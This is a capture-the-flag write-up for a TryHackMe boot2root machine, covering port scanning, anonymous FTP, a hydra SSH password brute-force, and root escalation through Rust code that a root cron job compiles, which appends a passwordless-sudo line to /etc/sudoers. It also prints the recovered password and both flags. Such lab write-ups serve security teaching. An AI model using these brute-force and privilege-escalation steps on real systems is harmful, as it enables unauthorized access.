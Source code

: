 ```yaml
---
description: https://tryhackme.com/room/yctfweek2Mv
---
```


# VM - boot2root

i had first blood for this machine ([🩸](https://emojipedia.org/drop-of-blood))

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

## Port scan

* i used rustscan to see what ports are open (21 and 22)
* nmap scan results :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.102.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:fa:d2:43:4e:e7:6c:1f:49:19:f3:3f:ae:8c:e2:00 (RSA)
|   256 48:57:12:7e:c2:10:4d:0d:1f:1a:d6:65:f5:4e:a6:7f (ECDSA)
|_  256 93:b2:43:81:5f:0c:73:af:84:b1:45:ba:21:ac:c2:54 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```

* only 2 ports were open,

## FTP&#x20;

* anonymous login was allowed

```bash
└─➜ ftp 10.10.103.104                                                                                                                                                                    [1]
Connected to 10.10.103.104.
220 (vsFTPd 3.0.5)
Name (10.10.103.104:kyubi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
226 Directory send OK.

ftp> get welcome.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.txt (69 bytes).
226 Transfer complete.
69 bytes received in 0.0013 seconds (52 kbytes/s)

ftp> bye
221 Goodbye.
```

### Contents of welcome.txt

```bash
Hello I am melodi and welcome to my simple FTP server.

Thank You :)
```

* Username : melodi

## SSH&#x20;

* since no http port was open, my next thought was to **bruteforce** the password

### hydra bruteforce

```bash
└─➜ hydra -l melodi -P /usr/share/wordlists/rockyou.txt 10.10.103.104 ssh -t 4                                                                                                           [0]
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-10 12:37:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.103.104:22/
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 14344317 to do in 2951:31h, 4 active
[22][ssh] host: 10.10.103.104   login: melodi   password: princess1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-10 12:38:56

```

### Password found : princess1



## User flag

```bash
└─➜ ssh melodi@10.10.103.104                                                                                                                                                           [130]
The authenticity of host '10.10.103.104 (10.10.103.104)' can't be established.
ED25519 key fingerprint is SHA256:G7f5Il1Yitj0F1y5OmeYSgwUVJbsq01WBas04KF+LPo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:36: 10.10.224.19
    ~/.ssh/known_hosts:38: 10.10.211.116
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.103.104' (ED25519) to the list of known hosts.
melodi@10.10.103.104's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Dec  7 18:33:34 2023
melodi@ubuntu:~$ ls
fl4g.txt
melodi@ubuntu:~$ cat fl4g.txt
YCTF{15_1t_e45y??}

```

### Flag : YCTF{15\_1t\_e45y??}



## Root flag

* I used **pspy64** script to see what all proccess were running on the machine

```bash
2023/12/09 19:35:01 CMD: UID=0     PID=14136  | /root/.cargo/bin/rustc /tmp/hello.rs
2023/12/09 19:35:01 CMD: UID=0     PID=14135  | /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14134  | /bin/sh -c /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14133  | /usr/sbin/CRON -f
```

* every minute root compiles the script under `/tmp/hello.rs` and (runs it?)
* Let's add ourself in sudoers list (NOTE: this isn't the way i solved this machine)
* before :&#x20;

```bash
melodi@ubuntu:/tmp$ sudo -l
[sudo] password for melodi:
Sorry, user melodi may not run sudo on ubuntu.
```

* script :&#x20;

```rust
use std::fs::OpenOptions;
use std::io::{self, Write};
use std::path::Path;

fn main() {
    let username = "melodi";

    // Path to the sudoers file
    let sudoers_path = "/etc/sudoers";

    // Check if the file exists
    if !Path::new(sudoers_path).exists() {
        eprintln!("Error: sudoers file not found at {}", sudoers_path);
        return;
    }

    // Open the sudoers file for appending
    let mut file = match OpenOptions::new().append(true).open(sudoers_path) {
        Ok(file) => file,
        Err(err) => {
            eprintln!("Error opening sudoers file: {}", err);
            return;
        }
    };

    // Prepare the line to be added to the sudoers file
    let sudoers_line = format!("{}   ALL=(ALL:ALL) NOPASSWD: ALL\n", username);

    // Write the line to the sudoers file
    match file.write_all(sudoers_line.as_bytes()) {
        Ok(_) => println!("Passwordless sudo access added for user: {}", username),
        Err(err) => eprintln!("Error writing to sudoers file: {}", err),
    }
}
```

* After a minute our script will be run by the root user

```bash
melodi@ubuntu:/tmp$ sudo -l
Matching Defaults entries for melodi on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User melodi may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

* woo hooooo, we can run sudo now, without any password

```bash
melodi@ubuntu:/tmp$ sudo /bin/bash
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# cd /root
root@ubuntu:~# ls
r00t.txt  script.sh
root@ubuntu:~# cat r00t.txt
YCTF{1t5_v3ry_ru5ty_h3r3!!}
```

* btw i used another script during CTF, a script that had rev shell payload for my local machine, i listen on my local machine with netcat and got root shell.

### Flag: YCTF{1t5\_v3ry\_ru5ty\_h3r3!!}

## Pwned

\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
